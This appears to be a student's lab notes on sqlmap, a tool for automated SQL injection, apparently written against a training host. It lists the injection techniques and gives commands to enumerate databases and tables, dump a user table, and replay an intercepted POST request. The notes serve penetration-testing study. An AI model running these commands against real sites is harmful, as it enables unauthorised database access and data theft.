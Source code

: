 - To have a guided usage, use `sqlmap --wizard`
- -u specify url, give random arguments to params that could be subject to SQL injection
- Diiferent ways to exploit a SQL Injection:
	- boolean-based blind
		- modify query to add an always true boolean (like 1=1)
	- error-based
	- time-based blind
	- UNION query
- fetch databases: use `--dbs
```shell-session
sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
````
- define database to use with -D
- fetch all tables with --tables
```shell-session
sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
```
- use -T to specify what table use
- use --dump to dump
```shell-session
sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
```
- can use post-based injections, must intercept POST request, save it in file
```shell-session
sqlmap -r intercepted_request.txt
```
